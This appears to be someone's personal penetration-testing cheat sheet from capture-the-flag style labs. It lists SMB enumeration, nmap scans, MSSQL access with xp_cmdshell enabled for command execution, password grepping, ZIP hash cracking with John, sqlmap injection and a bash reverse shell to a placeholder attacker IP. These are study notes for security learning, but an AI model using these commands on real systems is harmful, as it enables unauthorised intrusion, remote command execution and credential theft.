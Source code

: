 ```yaml
---
title: "2022-06-28"
tags:
  - hacking
programming-languagues:
created: 2022-06-28
---
```

## Resources
- [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)

## Tools
### SMB
Server Message Blocks (Port 445) (aka Common Internet File System).

To enumerate:
```bash
smbclient -N -L \\\\{TARGET_IP}\\

-N: no password
-L: look at what services are available
```

To access:
```bash
smbclient -N \\\\{TARGET_IP}\\<folder>
```

When inside, **dir** prints the directories.

To download a file: **get**.

### NMAP
```bash
nmap -p- --min-rate 5000 -sV {TARGET_IP} 
nmap -sC -sV {TARGET_IP}
```

### Impacket
Can be used to connect and authenticate to a MSSQL server for example.

We can try to connect to the MSSQL server by using impacket's `mssqlclient.py` script along with the  
following flags:  
```bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

-windows-auth : this flag is specified to use Windows Authentication  
```

Check if I am admin inside MSSQL:
```sql
SELECT is_srvrolemember('sysadmin');
```

To check for `xp_cmdshell`:
```sql
EXEC xp_cmdshell 'net user';
```

To activate `xp_cmdshell`:
```sql
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE;  
sp_configure; - Enabling the sp_configure as stated in the above error message  
EXEC sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;
```

We can also use the powershell like this:
```bash
xp_cmdshell "powershell -c pwd"
```

Navigation:
```bash
xp_cmdshell "powershell -c cd C:/Users/Public; dir"
```

More on MSSQL Pentesting:
- Pentesting MSSQL ([HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server))
- [MSSQL Injection CheatSheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

### BURP
Burp Suite is a powerful security testing application that can be used to perform web requests on web applications, mobile apps, and thick clients. Burp offers multiple capabilities such as web crawler, scanner, proxy, repeater, intruder and many more.  

A web crawler (also known as a web spider or web robot) is a program or automated script which browses the World Wide Web in a methodical, automated manner. This process  
is called Web crawling or spidering. Many legitimate sites, in particular search engines, use spidering as a means of providing up-to-date data.  

If you tunnel web traffic through Burp Suite (without intercepting the packets), by default it can passively spider the website, update the site map with all of the contents requested and thus creating a tree of files and directories without sending any further requests.

### Stable Reverse Shell
```bash
sudo python3 -m http.server 80
```

```bash
sudo nc -lvnp 443
```

- Functional php reverse shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### SUID
Commonly noted as SUID (Set owner User ID), the special permission for the user access level has a single function: A file with SUID always executes as the user who owns the file, regardless of the user passing the command. If the file owner doesn't have execute permissions, then use an uppercase S here.

### Useful Commands
```bash
cat * | grep -i passw*
```

### Crack a ZIP file
Turn into hash:
```bash
zip2john backup.zip > hashes
```

```bash
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
```

### SQLmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL injection flaws. SQLmap automates the process of detecting and exploiting SQL injection. SQL Injection attacks can take control of databases that utilise SQL.

- Command:
```bash
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --  
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"
```

- Good shell:
```bash
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```